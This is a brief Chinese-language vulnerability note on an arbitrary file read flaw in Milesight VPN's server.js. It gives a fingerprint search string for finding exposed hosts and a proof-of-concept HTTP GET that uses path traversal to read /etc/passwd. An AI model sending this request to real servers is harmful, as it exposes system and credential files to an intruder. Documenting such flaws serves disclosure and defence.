


# Milesight VPN server.js 任意文件读取漏洞

## 漏洞描述

MilesightVPN 是一款软件，可使 Milesight 产品的 VPN 通道设置过程更加简便，并可通过网络服务器界面监控连接状态。其中存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

Milesight VPN

## 网络测绘

```
"MilesightVPN"
```

## 漏洞复现

登陆页面



验证POC

```
GET /../etc/passwd HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

